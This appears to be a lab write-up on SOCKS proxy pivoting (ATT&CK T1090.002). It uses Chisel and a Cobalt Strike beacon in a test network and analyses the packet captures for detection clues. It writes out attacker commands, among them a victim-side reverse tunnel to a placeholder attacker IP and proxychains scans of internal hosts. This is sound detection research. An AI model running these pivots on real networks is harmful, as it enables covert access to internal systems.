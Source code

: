 # T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

Simple layout from the test environment.

```
Attacker machine (Server proxy) -> External facing machine (Client proxy) -> Internal facing machine
```

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 

![chisel_server_listening_port](./Image_T1090.002/chisel_server_listening_port.png)

#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```

![chisel_client_1](./Image_T1090.002/chisel_client_1.png)

#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```

![chisel_pcap_1](./Image_T1090.002/chisel_pcap_1.jpg)

It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

#### In Attacker Server

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.

![cs_server_socks_1](Image_T1090.002/cs_server_socks_1.png)

```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

#### In Victim Server

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, the attacker will pass the network forwarding data to victim machine via the attacker's machine listening port (in this case is port 443).

![cs_client_socks_1](./Image_T1090.002/cs_client_socks_1.png)

Here is the decoded packet data found in the beacon that sent from teamserver. The command ID 0xE triggers the traffic forwarding function later.

```
Command used in attacker machine
> proxychains nmap 120.10.13.129
```

![cs_client_packet](./Image_T1090.002/cs_client_packet.png)

Screenshot below show the psedocode of beacon's traffic forwarding function.

![cs_client_socket_conn_1](./Image_T1090.002/cs_client_socket_conn_1.png)

## Findings

If network traffic is pass through proxy channel into internal network, you will only see the source IP of the machine where have the client SOCKS proxy installed and the target internal IP.

This can be seen in the packet from screenshot above.
Attacker executes `proxychains nmap 172.16.228.11` from their own machine to internal facing machine `172.16.228.11`, in the network packet data, the source address is the internal IP of the external machine instead of the attacker IP.

The SOCKS proxy port is completely on the attacker (teamserver) side, where it can't be find in the victim (client) side. This means the beacon in the victim machine just a relay to forward the traffic to internal in this case, while the teamserver will handle the SOCKS proxy/traffic forwarding stuffs.

## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
